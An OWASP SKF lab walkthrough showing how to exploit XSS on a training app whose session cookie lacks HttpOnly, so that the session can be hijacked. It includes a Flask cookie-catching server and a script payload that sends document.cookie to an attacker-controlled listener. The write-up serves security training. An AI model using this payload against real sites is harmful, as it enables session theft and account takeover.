# HttpOnly session hijacking XSS

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

{% hint style="warning" %}
This exercise does not work for chrome!
{% endhint %}

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin\
password: admin
{% endhint %}

![](../../.gitbook/assets/python/Session-Hijacking/1.png)

After authenticating to the server we can see that the user has a text-area field at his dissposal to insert user input. When we press submit we find that this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

{% hint style="info" %}
Refer to the XSS labs for more information how to test!
{% endhint %}

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](../../.gitbook/assets/python/Session-Hijacking/2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](../../.gitbook/assets/python/Session-Hijacking/3.png)

![](../../.gitbook/assets/python/Session-Hijacking/4.png)

## Exploitation

Now that we have determined that we can

1\) inject malicious javascript

2\) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](../../.gitbook/assets/python/Session-Hijacking/5.png)

```markup
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```

After injecting the malicious javascript in the text-area field we see the following GET request entering the server logs.

![](../../.gitbook/assets/python/Session-Hijacking/6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
